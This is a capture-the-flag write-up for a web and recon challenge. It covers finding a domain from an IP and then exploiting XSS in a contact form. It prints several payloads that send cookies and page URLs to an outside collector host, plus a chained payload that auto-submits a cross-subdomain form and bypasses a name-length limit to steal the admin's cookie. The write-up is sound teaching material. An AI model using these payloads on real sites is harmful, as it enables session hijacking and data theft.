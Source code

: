 # BlackBox Pentesting

```
Our agents found a BSC server which is used to contact one of the Corp's sysadmins. We managed to get his
IP (45.77.146.27), but we still haven't found it's domain. After obtaining the domain, we believe it's
possible to exploit their website somehow, and then obtain sensitive data. Use your old school pentesting
skills and you will be rewarded!

dir(search|buster|*) tools NOT needed and NOT allowed!


Id: blackbox_pentesting

Total solves: 4

Score: 420

Categories: Web, Recon
```

For this challenge, the only thing that we have is an IP. The description suggests that we should reverse-dns this ip to get the corresponding domain.

I used [dnstrails.com](http://dnstrails.com/) and it showed me that the domain was `bloodsuckers.world`.
The website was made of a contact form asking for a name and a message. And that was all, nothing else. I tried both SQLi and XSS injection, and it turned out that the message is XSS-injectable, so i tried to steal the admin's cookies:

```html
<script>
new Image().src="http://requestb.in/XXXX?cookie=" + document.cookie;
</script>
```

(I used [requestb.in](http://requestb.in) the whole challenge)

And the cookies where: `Nice_try!=But_you_need_to_dig_deeper`

Nice, i'm getting troll :')

So let's dig deeper and print more information. I tried both local and session storage, and both were empty. I tried to print the HTML of the page, and found nothing interesting.
Then i tried to print the URL of the page:

```html
<script>
new Image().src="http://requestb.in/XXXXX?path=" + encodeURI(document.location);
</script>
```

Turned out to be `http://sandbox.bloodsuckers.world/render` !

Oh, it's not the same domain, so the cookies that i'm reading are the ones of `sandbox.bloodsuckers.world` and not the ones of `bloodsuckers.world` (cookies aren't shared (by default) between subdomains).

So here came the point where i struggled the most, and i suddenly realised that not only the message is XSS-injectable, but the username too ! And guess what, when you submit the form, it says "Dear XXX, thank you and we will answer you shortly" (or something like that). 

So here was the plan:
  1) First, submit a message that is going to be read in `sandbox.bloodsuckers.world`
  2) Use this message to submit the form of `bloodsuckers.world` for the user, using a name that contains an XSS injection to steal the cookie
  3) At the page 'Dear XXX', the code is executed and the cookie are stolen!
  
Easy, or no. The name is limited to 12 characters only (client-side and server-side checked).
But if you send it twice, the backend application is gonna concat them into one, and only the first one is limited to 12 characters.

With all that, i was ready to craft the ultimate payload:

```html
<script>
var form = document.createElement("form");
form.setAttribute("method", "POST");
form.setAttribute("action", "http://bloodsuckers.world/admin/contact");

var hiddenField = document.createElement("input");
hiddenField.setAttribute("type", "hidden");
hiddenField.setAttribute("name", "name");
hiddenField.setAttribute("value", "lol");

var hiddenField3 = document.createElement("input");
hiddenField3.setAttribute("type", "hidden");
hiddenField3.setAttribute("name", "name");
hiddenField3.setAttribute("value", '\'; new Image().src="https://requestb.in/XXXXX?cookie=" + document.cookie; //');


var hiddenField2 = document.createElement("input");
hiddenField2.setAttribute("type", "hidden");
hiddenField2.setAttribute("name", "message");
hiddenField2.setAttribute("value", "lol2");

form.appendChild(hiddenField);
form.appendChild(hiddenField2);
form.appendChild(hiddenField3);

document.body.appendChild(form);
form.submit();

</script>
```

And the flag was `CTF-BR{D0_y0u_eV3n_5oP?}`



Thank you for reading,

The `Rapace Diabolique`
